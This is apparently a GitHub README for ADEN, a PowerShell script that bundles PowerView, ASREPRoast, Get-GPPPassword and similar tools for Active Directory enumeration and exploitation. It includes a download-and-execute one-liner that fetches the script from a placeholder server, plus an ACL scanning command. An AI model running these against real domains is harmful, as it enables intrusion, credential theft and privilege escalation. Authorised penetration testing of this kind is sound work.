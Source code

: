 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a carefully put together merge of several enumeration and exploitation projects:

- PowerView
- PowerMad
- ASREPRoast
- Get-GPPPassword
- PowerUpSQL

It is to be used as an all-in-one enumeration routine to spin off when you are in a domain user's session.

## How to use?
From a domain's user powershell session:
```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-ADEnum
```
The script will perform a number of checks that you can directly see on a clear output. The only thing it doesn't do is ACL enumeration, I recommend you do this once you know your user context, then you can issue manually a command like this:
```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "[YOUR_GROUP]"} | select ObjectDN, IdentityReference, ActiveDirectoryRights, AccessControlType
```
